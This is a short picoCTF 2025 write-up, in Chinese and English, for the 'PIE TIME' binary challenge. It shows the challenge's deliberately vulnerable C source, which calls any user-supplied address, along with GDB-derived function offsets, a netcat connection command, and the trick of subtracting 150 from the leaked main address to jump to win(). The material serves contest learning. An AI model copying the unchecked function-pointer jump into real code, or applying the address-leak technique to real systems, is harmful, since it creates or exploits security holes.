

# PIE TIME

###### tags: ` Binary Exploitation`, `picoCTF 2025`, `browser_webshell_solvable`



### Source Code

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### 用 GDB 看 function address

| function name    | address(HEX) | address(DEC) |
| ---------------- | ------------ | ------------ |
| main             | 0x133d       | 4925         |
| win              | 0x12a7       | 4775         |
| segfault_handler | 0x1289       | 4745         |

可知

```
main -> win = -150
```

### 以 netcat 連接程式

```
nc rescued-float.picoctf.net 63880
```


將 `main address` 扣除 `150` 即可得到 `win address`

即可得到 flag
